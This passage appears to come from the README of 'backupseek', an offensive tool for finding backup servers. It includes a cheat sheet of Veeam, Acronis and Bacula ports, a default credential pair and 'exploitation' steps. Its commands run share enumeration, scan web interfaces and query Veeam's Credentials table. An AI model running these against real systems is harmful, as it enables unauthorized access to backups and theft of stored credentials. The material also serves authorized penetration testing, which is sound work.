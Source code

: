 ### Example 4: Bacula Misconfiguration
```bash
./backupseek.py targets.txt --full
# Found: Bacula server with exposed config
# Extracted: Director password
# Impact: Access to all backup catalogs
```

## Exit Codes

| Code | Meaning |
|------|---------|
| 0 | Success - backup systems found |
| 1 | No IPs to scan |

## Quick Reference Card

```
┌──────────────────────────────────────────────┐
│         BACKUPSEEK CHEAT SHEET               │
├──────────────────────────────────────────────┤
│ VEEAM                                        │
│  9392,9393    Backup services                │
│  9419         Web UI (administrator:password)│
├──────────────────────────────────────────────┤
│ ACRONIS                                      │
│  9876,44445   Management                     │
├──────────────────────────────────────────────┤
│ BACULA                                       │
│  9101         Director                       │
│  Config: /etc/bacula/bacula-dir.conf         │
├──────────────────────────────────────────────┤
│ EXPLOITATION                                 │
│  Default creds  Test web interfaces          │
│  Database       Extract Veeam creds          │
│  Shares         Access backup repositories   │
│  Configs        Extract from backup files    │
└──────────────────────────────────────────────┘
```

## Related Commands

```bash
# Port scanning
nmap -p 9392,9393,9419,9876,9101-9103 target

# Share enumeration
smbclient -L //target -N
enum4linux -S target

# Web testing
curl -k https://target:9419
nikto -h https://target:9419

# Database access (Veeam)
sqlcmd -S VEEAM-SERVER -d VeeamBackup -Q "SELECT * FROM Credentials"

# Bacula console
bconsole
```
